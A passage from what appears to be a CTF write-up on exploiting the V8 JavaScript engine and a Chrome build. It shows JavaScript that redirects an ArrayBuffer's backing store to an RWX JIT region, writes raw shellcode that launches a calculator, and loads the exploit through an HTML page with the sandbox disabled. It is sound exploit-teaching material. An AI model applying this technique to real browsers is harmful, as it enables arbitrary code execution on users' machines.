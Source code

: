 The backing store of an `ArrayBuffer` can be considered as same as the elements pointer of a `JSArray`. It is found at offset `&ArrayBuffer+0x14`, which you can find out by using the `x64.debug` version of `d8` binary. The principle of this is that instead of using a `fakeobj` to write directly to an arbitrary address, we use the fakeobj to do the `arb-write` and modify the backing store of a legitimate ArrayBuffer to our arbitrary address, which in this case would be overwritten with the `rwx` segment. Now, we can use `dataview.setBigUint64(0, val, true)` to write our val as a little-endian 64 bit value to our arbitrary address. This is shown below:-

```js
var arr_buf_addr = addrof(arr_buf) & 0xffffffffn;;
var back_store_addr = arb_read(arr_buf_addr + 0x14n);

console.log("[+] ArrayBuffer address: 0x" + arr_buf_addr.toString(16));
console.log("[+] Back store pointer: 0x" + back_store_addr.toString(16));

arb_write(arr_buf_addr + 0x14n, rwx);

var shellcode = [
    0x48, 0x31, 0xf6, 0x56, 0x48, 0x8d, 0x3d, 0x32,
    0x00, 0x00, 0x00, 0x57, 0x48, 0x89, 0xe2, 0x56,
    0x48, 0x8d, 0x3d, 0x0c, 0x00, 0x00, 0x00, 0x57,
    0x48, 0x89, 0xe6, 0xb8, 0x3b, 0x00, 0x00, 0x00,
    0x0f, 0x05, 0xcc, 0x2f, 0x75, 0x73, 0x72, 0x2f,
    0x62, 0x69, 0x6e, 0x2f, 0x67, 0x6e, 0x6f, 0x6d,
    0x65, 0x2d, 0x63, 0x61, 0x6c, 0x63, 0x75, 0x6c,
    0x61, 0x74, 0x6f, 0x72, 0x00, 0x44, 0x49, 0x53,
    0x50, 0x4c, 0x41, 0x59, 0x3d, 0x3a, 0x30, 0x00
  ];  // shellcode for spawning calculator8

for (let i = 0; i < shellcode.length; i++) {
  dataview.setUint8(i, shellcode[i], true);
}
```
Now, this aside, we just call the function `pwn` which would result in the execution of the shellcode:-

```js
pwn();
```
Run the exploit as `./d8 ./xpl.js` and we will see a successful calc pop:-

![calc_pop_d8](/img/ropetwo/d8_calc.png)

As it worked on `d8`, we must try it on the chrome binary which was distributed along from the port 8000, to run the exploit, we have to make a HTML file in which we will include the `pwn.js` file, the idea here is to use `--no-sandbox` which ultimately means no sandbox escape is being and all the JIT code must be executed on the system itself, the HTML file:-

```html
<html>
    <head>
       <script src="xpl.js"></script>
    </head>
</html>
```
